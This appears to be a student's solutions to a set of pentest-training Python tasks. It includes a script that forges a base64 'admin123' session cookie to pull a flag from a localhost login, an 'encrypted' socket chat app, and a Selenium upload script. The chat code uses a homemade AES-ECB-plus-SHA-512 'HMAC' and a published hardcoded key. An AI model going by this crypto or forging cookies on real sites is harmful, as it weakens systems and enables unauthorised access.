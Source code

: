 ## Easy

### 1) Your task would be to create a python script to create an encrypted cookie and brute force the login system to gain access . You can use the request and crypto python libraries

```text
import requests
import re
import base64

value = 'admin123'.encode('ascii')
b64_bytes = base64.b64encode(value)
b64_value = b64_bytes.decode('ascii')

url = 'http://localhost:8080/login'
credentials = {'username': 'Kit', 'password': 'Kat'}
cookies = dict(session_id=b64_value)
r = requests.post(url, data=credentials, cookies=cookies)
data = r.json()['flag']
pattern = "[flag{}]"
flag_value = re.sub(pattern,"",data)
print(flag_value)
```
Output: **H4ck3r** <br />

### 2) Make a one line python program to find whether the given year is leap or not.

```text
print("Leap Year") if (all((x % 4 == 0  and x % 100 != 0 or x % 400 == 0 for x in [int(input())]))) else print("Non Leap Year")
```
![Easy-2.png](https://raw.githubusercontent.com/rSrikesh/bi0s-tasks/main/Pentest%20Tasks/Python%20Tasks/Screenshots/Easy-2.png)

## Medium:

Write a chat application using socket programming. Consider a small chat program with two processes A and B: A: Establishing Connection over sockets and sending message/data to the server side/receiver side . B. Receiving connection and send a message/response back . Feel free to use any library functions.

Should include the following security features: ● Symmetric key encryption for confidentiality(You can use any algorithm) ● SHA-512 for integrity ● HMAC for message authentication.

**server.py**

```text
import socket
from cryptography.fernet import Fernet
from hashlib import sha512
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import json

username_s = "A"
username_c = "B"

def shared_key(usr_s , usr_c):

    s_key = b"[conn]".join(sorted([usr_s, usr_c]))
    return s_key[:16] if len(s_key) >= 16 else pad(s_key, 16)

key = shared_key(username_s.encode(),username_c.encode())

def load_key():
    return open("mykey.key","rb").read()

def hmac(mssg):
    global key
    mac = AES.new(pad(key, 16), AES.MODE_ECB).encrypt(pad(mssg, 16))
    hash = sha512(mac).digest()
    return hash

def conv_json(mssg , key):
    a = {"message":mssg.hex(),"key":key.hex()}
    a_dump = json.dumps(a)
    return a_dump

def rev_dump(data):
    x = json.loads(data)
    return bytes.fromhex(x["message"]) , bytes.fromhex(x["key"])

symkey = load_key()
f = Fernet(symkey)

new_socket = socket.socket()
hostname = socket.gethostname()
IPAddr = socket.gethostbyname(hostname)
port = 8080
new_socket.bind((hostname,port))
print("Connection Successful")
new_socket.listen(5)
conn , addr = new_socket.accept()
print(username_c + ' has connected.')

while True:
    message = input("A: ")
    enc_message = f.encrypt(message.encode())
    hash = hmac(enc_message)
    data = conv_json(enc_message,hash)
    conn.send(data.encode())
    recv_data = conn.recv(1024)
    enc_mssg , hash_ = rev_dump(recv_data)
    hash_key = hmac(enc_mssg)
    if hash_ == hash_key:
        message_ = f.decrypt(enc_mssg)
        print("B: "+message_.decode())
    else:
        break

```

**client.py**

```text
import socket
from cryptography.fernet import Fernet
from hashlib import sha512
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import json

username_s = "A"
username_c = "B"

def shared_key(usr_s , usr_c):

    s_key = b"[conn]".join(sorted([usr_s, usr_c]))
    return s_key[:16] if len(s_key) >= 16 else pad(s_key, 16)

c_key = shared_key(username_s.encode(),username_c.encode())

def hmac(mssg):
    global c_key 
    mac = AES.new(pad(c_key, 16), AES.MODE_ECB).encrypt(pad(mssg, 16))
    hash = sha512(mac).digest()
    return hash

def rev_dump(data):
    x = json.loads(data)
    return bytes.fromhex(x["message"]) , bytes.fromhex(x["key"])
 
def load_key():
    return open("mykey.key","rb").read()

def conv_json(mssg , key):
    a = {"message":mssg.hex(),"key":key.hex()}
    a_dump = json.dumps(a)
    return a_dump
    
fkey = load_key()
f = Fernet(fkey)

client_socket = socket.socket()
c_hostname = socket.gethostname()
c_port = 8080
client_socket.connect((c_hostname, c_port))

while(True):
    recv_data = client_socket.recv(1024)
    message , hash_ = rev_dump(recv_data)
    hash_ckey = hmac(message)
    if hash_ckey == hash_:
        message = f.decrypt(message)
        print("A: "+message.decode())
    else:
        break
    message = input("B: ")
    enc_message = f.encrypt(message.encode())
    hashkey = hmac(enc_message)
    data = conv_json(enc_message,hashkey)
    client_socket.send(data.encode())
```

**mykey.key**

```text
eBwOgmx3s8qzvQ8ozy-bNiHiVJ8ZTZTLgrjQljl0Lao=
```

![Medium Task.gif](https://raw.githubusercontent.com/rSrikesh/bi0s-tasks/main/Pentest%20Tasks/Python%20Tasks/Screenshots/Medium%20Task.gif)

## Hard:

### Sometimes, we'll have to automate stuff in a web browser. Your next task would be automating a file upload feature using selenium web driver , on your preferred browser . For the web app , who's file upload you'll be automating, you can use dvwa . It's easy to install and set up . A simple google search would give resources on how to set it up .

```text
import selenium
from selenium import webdriver
from time import sleep

driver_location = "/snap/bin/chromium.chromedriver"
binary_location = "/usr/bin/chromium-browser"
image_location = "/home/dell/logo.png"

options = webdriver.ChromeOptions()
options.binary_location = binary_location

driver = webdriver.Chrome(executable_path=driver_location,options=options)
driver.get("https://web.whatsapp.com/")

name = input('Enter Name: ')

user = driver.find_element_by_xpath(f'//span[@title = "{name}"]')
user.click()

attachment = driver.find_element_by_xpath('//div[@title = "Attach"]')
attachment.click()

logo = driver.find_element_by_xpath('//input[@accept = "image/*,video/mp4,video/3gpp,video/quicktime"]')
logo.send_keys(image_location)

sleep(4)
send = driver.find_element_by_xpath('//span[@data-icon="send"]')
send.click()
```
